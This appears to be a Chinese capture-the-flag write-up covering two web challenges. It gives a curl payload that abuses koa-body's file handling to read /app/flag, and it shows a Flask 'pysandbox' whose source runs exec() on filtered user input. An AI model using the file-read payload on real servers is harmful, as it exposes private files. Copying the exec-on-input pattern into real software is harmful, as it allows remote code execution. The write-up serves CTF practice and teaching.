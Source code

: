 ```javascript


router.get('/', async (ctx, next) => {
  ctx.response.type = 'html';
  ctx.response.body = fs.createReadStream('index.html');

});

app.use(router.routes());
app.listen(3333, () => {
  console.log('This server is running at port: 3333')
})
```

简单的上传和下载功能，引用了`koa-body` 库，通过检索发现`issue`
![UmwS9f.png](https://s1.ax1x.com/2020/07/09/UmwS9f.png)

payload
```
 curl -X POST -H "Content-Type: application/json" -d '{"files":{"file":{"name":"lol","path":"/app/flag"}}}'  http://ip/uploadfile

然后下载
 curl http://ip/downloadfile/对应id
```
[![UmBPTs.png](https://s1.ax1x.com/2020/07/09/UmBPTs.png)


## 二、pysandbox
源码
```python
from flask import Flask, request

app = Flask(__name__)

@app.route('/', methods=["POST"])
def security():
    secret = request.form["cmd"]
    for i in secret:
        if not 42 <= ord(i) <= 122: return "error!"
    exec(secret)
    return "xXXxXXx"


if __name__ == '__main__':
    app.run(host="0.0.0.0")

```

我把我自己蠢哭了。。
过滤了括号，发现没法调用函数，苦思冥想感觉像 flask静态文件映射
